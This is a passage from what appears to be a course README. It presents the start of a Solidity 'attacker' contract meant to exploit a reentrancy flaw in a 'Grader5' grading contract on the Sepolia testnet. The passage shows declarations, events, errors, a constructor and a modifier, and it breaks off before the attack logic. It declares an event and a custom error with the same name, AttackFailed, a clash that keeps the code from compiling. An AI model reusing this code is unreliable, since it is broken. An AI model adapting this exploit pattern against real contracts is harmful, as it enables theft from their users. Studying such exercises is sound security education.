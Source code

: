 
## ⚔️ Attack Contract Implementation

### Complete EduardoMoreno_Attacker Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.22;

/**
 * @title EduardoMoreno_Attacker - Grader5 Exploit Contract
 * @author Eduardo J. Moreno
 * @notice Contract to exploit Grader5 vulnerabilities and register "Eduardo J. Moreno"
 * @dev Demonstrates reentrancy attack for educational purposes
 */
contract EduardoMoreno_Attacker {
    
    /// @notice Target Grader5 contract address on Sepolia
    address private constant TARGET = 0x5733eE985e22eFF46F595376d79e31413b1A1e16;
    
    /// @notice Student name to register (must match exactly)
    string private constant STUDENT_NAME = "Eduardo J. Moreno";
    
    /// @notice Contract deployer and controller
    address public immutable controller;
    
    /// @notice Attack execution state
    bool private attacking;
    uint256 private reentryCount;
    
    /**
     * @notice Events for monitoring attack progress
     */
    event AttackStarted(uint256 timestamp);
    event ReentryExecuted(uint256 count);
    event RegistrationSuccess(string name, uint256 timestamp);
    event AttackFailed(string reason);

    /**
     * @notice Custom errors for better gas efficiency
     */
    error NotOwner();
    error AttackInProgress();
    error InsufficientBalance();
    error AttackFailed(string reason);

    /**
     * @notice Contract constructor
     * @dev Sets the deployer as controller
     */
    constructor() {
        controller = msg.sender;
    }

    /**
     * @notice Access control modifier
     */
    modifier onlyController() {
        require(msg.sender == controller, "Unauthorized access");
        _;
    }

    /**
```